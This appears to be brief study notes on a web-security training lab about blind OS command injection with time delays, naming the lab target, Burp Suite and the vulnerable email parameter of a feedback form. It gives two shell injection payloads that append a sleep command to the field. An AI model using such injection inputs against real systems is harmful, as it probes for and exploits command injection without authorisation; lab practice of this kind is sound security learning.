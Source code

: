 # Blind OS command injection with time delays

1. Command injection: feedback function.
2. Goal: 

### Analysis
- Web target: `https://0abd00e8049468b9808a216300780052.web-security-academy.net`
- Use Burp suite.
- `ctrl + u`: URL encode.

1. You should `submit feedback`.
2. Look at `email` parameter.
```bash
; sleep 10 ;
# or
; sleep 10 #
```